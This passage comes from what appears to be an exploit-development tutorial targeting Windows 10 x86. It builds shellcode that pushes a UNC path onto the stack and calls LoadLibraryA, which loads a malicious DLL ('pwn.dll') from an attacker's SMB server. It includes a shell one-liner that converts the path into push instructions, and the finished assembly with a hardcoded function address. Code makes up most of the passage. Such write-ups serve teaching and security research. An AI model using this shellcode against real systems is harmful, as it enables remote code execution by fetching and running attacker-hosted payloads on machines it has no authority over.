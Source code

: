 **NOTE:** I’m using `Windows 10 Pro 20H2` at the moment of this writing.
As `ASLR` is enabled by default, the `LoadLibraryA` address will change
on every reboot.

We also need to know the `LoadLibraryA` parameters:

**Taken from
<https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya>.**

``` cpp
HMODULE LoadLibraryA(
  LPCSTR lpLibFileName
);
```

Easy\! The `lpLibFileName` is a string with the location of the `DLL`
file to be included. To our advantage, the location can be a Universal
Naming Convention (`UNC`) path in the form `\\server\share\file.dll`.

In Windows, that path would be resolved using the `SMB` protocol. That
means that we must expose that file using an `SMB` server, but we will
get to that later. For now, we can predict that the `UNC` path of our
payload will be at `\\attacker_ip\share\shell.dll`; in my case, it would
be `\\192.168.0.18\X\pwn.dll`.

To call `LoadLibraryA` on an `x86` architecture, we must push into the
stack the `lpLibFileName` value, which is a pointer to the
`\\192.168.0.18\X\pwn.dll` string. As `x86` is a 32 bits architecture,
we must push exactly 4 bytes each time into the stack, and as we are
pushing data into the stack, it must be in reverse order. So, we need to
convert `\\192.168.0.18\X\pwn.dll` to hex, split it in chunks of 4
bytes, pad as needed and reverse. This can be done with:

``` console
$ for i in $(echo -ne '\\\\192.168.0.18\\X\\pwn.dll' | xxd -ps | tr -d '\n' | fold -w 8); do python3 -c "import struct;print(struct.pack('<L', 0x$i).hex())"; done | tac | sed 's/^/push 0x/g'
push 0x6c6c642e
push 0x6e77705c
push 0x585c3831
push 0x2e302e38
push 0x36312e32
push 0x39315c5c
```

With the required information, we can now write the call to
`LoadLibraryA`:

``` x86asm
sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
                        ; overwriting our shellcode
xor ebx,ebx             ; Zero out EBX that will be the NULL byte terminating
                        ; the UNC path
push ebx                ; PUSH NULL byte
push 0x6c6c642e         ; \\192.168.0.18\X\pwn.dll reversed
push 0x6e77705c
push 0x585c3831
push 0x2e302e38
push 0x36312e32
push 0x39315c5c
push esp                ; Push pointer of the UNC path
mov ebx,0x76460b30      ; Move into EBX the address of 'LoadLibraryA'
call ebx                ; call 'LoadLibraryA("\\192.168.0.18\X\pwn.dll")'
```
